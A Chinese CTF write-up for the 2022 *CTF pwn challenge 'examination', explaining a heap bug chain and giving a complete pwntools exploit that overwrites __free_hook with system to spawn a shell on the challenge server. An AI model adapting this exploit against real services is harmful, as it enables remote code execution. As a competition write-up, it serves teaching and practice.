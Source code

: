 ```yaml
---
layout: post
title: "2022 *ctf pwn examination wp"
date:   2022-4-17
tags: [ctf_wp]
comments: true
author: wsxk
---
```


是我见过的最复杂的堆题目了，没有之一

首先先看一遍程序的大致流程

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-4-15-%E6%98%9Fctf_pwn_examination/1.png)

可以看到关键点在当角色为student时的check_review函数

当分数大于89的时候可以拿到chunk地址，以及任意地址加1的权限，但是我们看过流程后，会发现，正常情况分数是不可能超过89的
因为模数最大为90。

当老师给分时

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-4-15-%E6%98%9Fctf_pwn_examination/2.png)

我们发现如果学生祈祷（pray），会扣10分，如果学生分数少于10分，就发生整型溢出

这样就能绕过这个判断了

那么思考后面的条件怎么用，我们发现我们可以构造学生0和学生1的comment地址差0x100，这样通过加1操作，就能使得2个学生的comment指向同一个位置，造成double free

然后思考我们要怎么拿到libc基址，这道题的comment限制在0x400以内，直接释放都会丢到tcache里面，这样是拿不到基址的

这里再用一次上面的条件，使得comment的size域+0x100，这样释放就能拿到libc地址了（只要对学生0指向函数check_review就能拿到libc地址了

这里再用一次上面的条件，将学生0指向的comment可写的长度修改，使它可以写超长的值，就能覆盖之后的chunk

覆盖之后的某个学生的comment地址为free_hook，就能完成攻击



    from pwn import *

    libc = ELF("./libc-2.31.so")
    #libc= ELF("/lib/x86_64-linux-gnu/libc.so.6")
    io=remote("124.70.130.92",60001)
    #io = process(['./examination'])
    #gdb.attach(io)
    context.log_level="debug"

    def change_role(num):
        io.sendlineafter("choice>>",str(5))
        io.sendlineafter("<0.teacher/1.student>:",str(num))

    # teacher
    def add_stu(num_question):
        io.sendlineafter("choice>>",str(1))
        io.sendlineafter("enter the number of questions: ",str(num_question))

    def give_score(id):
        io.sendlineafter("choice>>",str(2))
        print(str(id)+"th "+"student is ")
        io.recvuntil(str(id)+"th "+"student is ")
        value = int(io.recv(2))
        return value

    def write_check(num,size,content):
        io.sendlineafter("choice>>",str(3))
        io.sendlineafter("which one? > ",str(num))
        io.sendlineafter("please input the size of comment: ",str(size))
        io.sendlineafter("enter your comment:",content)

    def free(num):
        io.sendlineafter("choice>>",str(4))
        io.sendlineafter("which student id to choose?",str(num))

    #student

    def change_id(num):
        io.sendlineafter("choice>>",str(6))
        io.sendlineafter("input your id: ",str(num))

    def pray():
        io.sendlineafter("choice>>",str(3))

    def check_review():
        io.sendlineafter("choice>>",str(2))


    # get arbitrary addr  value +1
    def arbitrary_addr(num):
        change_role(1)
        change_id(num)
        pray()

        change_role(0)
        value=give_score(num)
        while value>=10:
            print("value:"+str(value))
            value=give_score(num)
        print("value:"+str(value))

        #change_role(1)
        #check_review()

    io.sendlineafter("role: <0.teacher/1.student>: ",str(0))
    change_role(0)
    add_stu(9)
    write_check(0,0xa0,"wsxk")
    add_stu(9)
    write_check(1,0x3f0,"test")
    add_stu(9)
    write_check(2,0xa0,"www")
    add_stu(9)
    write_check(3,0x200,"www")



    ## get_reware
    arbitrary_addr(3)
    change_role(1)
    change_id(3)
    check_review()
    io.recvuntil("Good Job! Here is your reward! ")
    first_chunk=int(io.recv(14),16)
    print("frist_chunk_addr:"+hex(first_chunk))
    write_addr1=first_chunk-(0x55de86bb17f0-0x55de86bb12d9)-0x100
    #gdb.attach(io)
    print("write_addr1:"+hex(write_addr1))
    write_addr2=write_addr1+0x3e9-0x2d9
    print("write_addr2:"+hex(write_addr2))
    io.recvuntil("addr: ")
    #gdb.attach(io)
    io.sendline(str(write_addr1)+'1')

    change_role(0)
    add_stu(9)
    write_check(4,0x300,"wsxk")
    add_stu(9)
    write_check(5,0x300,"wsxk")
    add_stu(9)
    write_check(6,0x300,"wwww")
    # get reward
    arbitrary_addr(4)
    change_role(1)
    change_id(4)
    check_review()
    io.recvuntil("addr: ")
    #gdb.attach(io)
    print("write_addr1:"+hex(write_addr1))
    print("write_addr2:"+hex(write_addr2))
    io.sendline(str(write_addr2)+'1')


    #get 0th reward
    arbitrary_addr(0)
    # free the 1th chunk
    #gdb.attach(io)
    change_role(0)
    free(1)   # total 5chunks left
    #gdb.attach(io)

    change_role(1)
    change_id(0)
    check_review()
    io.recvuntil("Good Job! Here is your reward! ")
    chunk=int(io.recv(14),16)
    io.recvuntil("addr: ")
    io.sendline(str(chunk+0x40+2)+"1")
    io.recvuntil(b"here is the review:\n")
    main_arena = u64(io.recv(7).ljust(8,b"\x00"))-96
    print("main_arena:"+hex(main_arena))
    #gdb.attach(io)

    libc.address=main_arena-0x1ECB80
    #libc.address=main_arena-0x1EBB80
    print("libc_address:"+hex(libc.address))
    print("free_hook:"+hex(libc.sym["__free_hook"]))
    print("malloc_hook:"+hex(libc.sym["__malloc_hook"]))
    free_hook=libc.sym["__free_hook"]

    # get shell
    change_role(0)
    io.sendline(str(3))
    io.recvuntil("which one? > ")
    io.sendline(str(0))
    io.recvuntil("enter your comment:")
    print("write_addr1:"+hex(write_addr1))
    print("write_addr2:"+hex(write_addr2))
    print("first_chunk:"+hex(first_chunk))
    #gdb.attach(io)
    payload=p64(main_arena+96)+p64(main_arena+96)+b'a'*0x4e0+p64(0x500)+p64(0x30)+p64(first_chunk+0x000055f06b873920-0x55f06b8738f0)+p64(0)*2+p64(0x0000000100000001)+p64(0)+p64(0x21)+p64(0x0000004800000009)+p64(free_hook)+p64(0x200)+p64(0x201)+p64(0xa777777)
    io.sendline(payload)
    #gdb.attach(io)
    ## write gadget
    gadget=libc.sym["system"]
    change_role(0)
    io.sendline(str(3))
    io.recvuntil("which one? > ")
    io.sendline(str(3))
    io.recvuntil("enter your comment:")
    payload=p64(gadget)
    io.send(payload)

    change_role(0)
    io.sendline(str(3))
    io.recvuntil("which one? > ")
    io.sendline(str(5))
    io.recvuntil("enter your comment:")
    io.sendline("/bin/sh\x00")
    #gdb.attach(io)
    free(5)
    io.interactive()